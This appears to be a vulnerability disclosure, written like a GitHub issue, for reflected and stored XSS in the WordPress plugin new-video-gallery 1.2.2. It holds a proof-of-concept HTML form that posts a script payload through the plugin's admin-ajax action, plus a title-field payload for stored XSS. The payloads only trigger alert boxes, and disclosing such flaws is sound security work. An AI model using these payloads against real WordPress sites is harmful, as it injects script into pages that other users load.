 * App: new-video-gallery
* Verion: 1.2.2
* Issue: xss

# Detail

[new-video-gallery](https://wordpress.org/plugins/new-video-gallery/) is a Wordpress plugin for create YouTube Gallery & Create Vimeo Gallery into your WordPress site. In the version 1.2.2 there are some XSS issues.

At frist, in the file new-video-gallery/new-video-gallery.php:300 line, the function `_ajax_video_gallery()` can be controlled.


And then the function `_vg_ajax_callback_function($id)` will be sinked.

![1](1.png)

- The PoC:
```php
<html>
<body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![2](2.png)

---

The other like a stored-xss Press `Add Video Gallery` and into this page then press`ADD VIDEO BANNER`.You can upload an image and write the payload on hte `Title` label.

![3](3.png)

Then press Publish And You will get a `Shortcode`, press the `Shortcode` in your page.

![4](4.png)

![5](5.png)

The xss will execute in the front page.

![6](6.png)

* Poc
  ``` html
  “><script>alert(2)</script><
  ```
